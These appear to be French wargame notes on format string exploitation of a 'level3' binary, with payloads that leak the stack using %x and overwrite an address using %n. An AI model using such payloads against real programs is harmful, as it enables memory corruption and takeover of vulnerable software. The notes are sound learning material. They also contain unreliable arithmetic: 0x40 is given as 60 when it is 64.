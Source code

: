 ## AT&T vs Intel

syntaxe AT&T

`mov source, destination`

syntaxe Intel

`mov destination, source`

## Format String Exploitation

Si on ne donne pas explicitement d'arguments variadiques apres avoir indique un format tel que %x, printf() parcours la pile dans l'ordre ce qui nous donne un acces significatif a la Pile.

Exemple avec le binaire level3:
VV
`(python -c 'print "AAAA" + ".%x"*8') | ./level3`

-> `AAAA.200.b7fd1ac0.b7ff37d0.41414141.2e78252e.252e7825.78252e78.2e78252e`

printf() affiche notre chaine "AAAA" puis cherche les arguments affilies aux formats. Vu qu'on ne lui a pas fournis ces arguments, printf() ne contente d'afficher ce qu'il a sous la main, dans la pile.
Et surprise, on retrouve notre chaine "AAAA" -> "41414141".

D'un autre cote, l'argument `%n` permet de stocker le nombre de caracteres lus dans un argument donne. On va donc pouvoir exploiter cette faille et changer "AAAA" par une addresse.

Il nous a fallu 4 `%x` pour afficher notre chaine. Heureusement on peut indiquer a printf de ne pas suivre l'ordre des arguments variadiques.

`%4$n` indique qu'il faut aller cherche le 4eme argument variadique.

Quel interet si `%n` sert uniquement a stocker la sortie du printf() ? Et bien on va pouvoir ecrire autant de caracteres que l'on veut de sorte a reformer la valeur de notre choix. Ici c'est 0x40 soit 60 en decimal.


`(python -c 'print "\x8c\x98\x04\x08" + "%60c" + "%4$n"'; cat) | ./level3`
- "\x8c\x98\x04\x08" est l'adresse que l'on souhaite modifier
- "%60c" sert a afficher 60 whitespaces afin de faire monter le compteur de printf()
- "%4$n" va chercher "\x8c\x98\x04\x08" 4 adresses plus loins et y stocker 60 soit 0x40.


